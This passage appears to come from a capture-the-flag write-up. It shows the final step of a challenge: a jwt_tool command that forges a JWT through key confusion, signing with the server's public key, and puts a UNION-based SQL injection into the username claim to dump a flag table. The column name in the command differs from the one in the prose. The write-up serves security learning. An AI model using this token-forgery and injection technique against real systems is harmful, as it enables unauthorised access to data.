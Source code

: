 <figure><img src="../../.gitbook/assets/Untitled 20 (7).png" alt=""><figcaption></figcaption></figure>

From the response we can see that the `flag_storage` table has the flag `top_secret_flag`.

## Getting the Flag

Now to get the flag, use the following command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(top_secret_flaag),1 from flag_storage--" -X k -pk ./public.key
```
{% endcode %}
